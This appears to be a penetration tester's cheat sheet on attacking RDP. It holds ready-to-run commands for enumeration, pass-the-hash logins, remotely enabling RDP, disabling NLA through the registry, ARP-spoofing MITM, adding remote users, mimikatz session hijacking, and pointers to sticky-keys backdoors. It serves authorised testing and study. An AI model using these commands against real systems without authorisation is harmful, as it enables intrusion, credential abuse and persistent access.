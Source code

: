 # Remote Desktop Protocol (RDP) 

TCP 3389

Beware - On Windows 11, [Network Level Authentication (NLA)](https://en.wikipedia.org/wiki/Network_Level_Authentication) is enabled by default for all RDP connections.

```bash
remmina
xfreerdp /u:$username /p:$Password /v:$IP
rdesktop $ip
```



## Enumerating RDP

Modified from HackTricks - [[Nmap-Cheatsheet]], [[Nmap-AllTheScripts]]
```bash
sudo nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 192.168.223.119 -e $interfaceForIdiotProofing -oA nmap/rdpenum
```

[[Impacket-Cheatsheet]]
```bash
impacket-rdp_check
# Impacket v0.11.0 - Copyright 2023 Fortra
# usage: rdp_check.py [-h] [-hashes LMHASH:NTHASH] target
# Test whether an account is valid on the target host using the RDP protocol.
# positional arguments: target [[domain/]username[:password]@]<targetName or address>
# options:
-h, --help # show this help message and exit
# authentication:
-hashes $LMHASH:$NTHASH # NTLM hashes, format is LMHASH:NTHASH
```

## Exploitation

[[Crackmapexec-Cheatsheet]]
```bash
# Remotely enable RDP using CrackMapExec
sudo crackmapexec smb $IP -u $user -p $password -M rdp -o ACTION=enable
```
[[Pass-The-Hash]] attacks with RDP. For non domain-joined machines `rdesktop` won't connect; use `xfreerdp` instead, which supports NLA for non domain-joined machines. `xfreerdp` allows for  [[Pass-The-Hash]]:

```bash
# RDP through Pass-the-Hash
xfreerdp /u:USER /d:DOMAIN /pth:NTLM /v:server.domain.local

xfreerdp /v:$IP /u:DOMAIN\\Administrator /pth:$ntml

# RDP using mimikatz and PtH
sekurlsa::pth /user:user /domain:domain.local /ntlm:xxxxxxxxxxxxxxx /run:"mstsc.exe /restrictedadmin"
```

`cmd.exe`
```bash
# Enable RDP from cmd.exe
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# Disable RDP from cmd.exe
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f

# Disable NLA (Network Layer Authentication) requirement
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

# You can also do it through the firewall
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```
`powershell.exe`
```powershell
# Enable RDP from cmd.exe
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# Disable RDP from cmd.exe
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f

# Disable NLA (Network Layer Authentication) requirement
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

# You can also do it through the firewall
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```
[[MITM-Attacks]]
```bash
# You can try to attack existing RDP connections
# seth.sh is a great tool for that
# It performs an ARP spoofing attack
./seth.sh eth0 <IP attacker> <IP victim> <Gateway | Host>
```
## Post NT System compromise

Add additional users
```powershell
net localgroup "Remote Desktop Users" $UserLoginName /add
```

Get session information
```powershell
query user
```

[[Mimikatz-Cheatsheet]]
```c
ts::sessions        // Get sessions
ts::remote /id:2    // Connect to the session
```

Combining stickykeys or utilman techniques *you will be able to access a administrative CMD and any RDP session anytime*. *RDPs that have been backdoored with one of these techniques already with: [Stick  Keys Slayer](https://github.com/linuz/Sticky-Keys-Slayer)*

Shadow Attack - [AutoRDPwn](https://github.com/JoelGMSec/AutoRDPwn)
## References

[Wikipedia Network Level Authentication (NLA)](https://en.wikipedia.org/wiki/Network_Level_Authentication)
[haax.fr RDP Exploitation](https://cheatsheet.haax.fr/windows-systems/exploitation/rdp_exploitation/)
[HackTricks - Pentesting RDP](https://book.hacktricks.xyz/network-services-pentesting/pentesting-rdp)
[AutoRDPwn](https://github.com/JoelGMSec/AutoRDPwn)
[Stick  Keys Slayer](https://github.com/linuz/Sticky-Keys-Slayer)
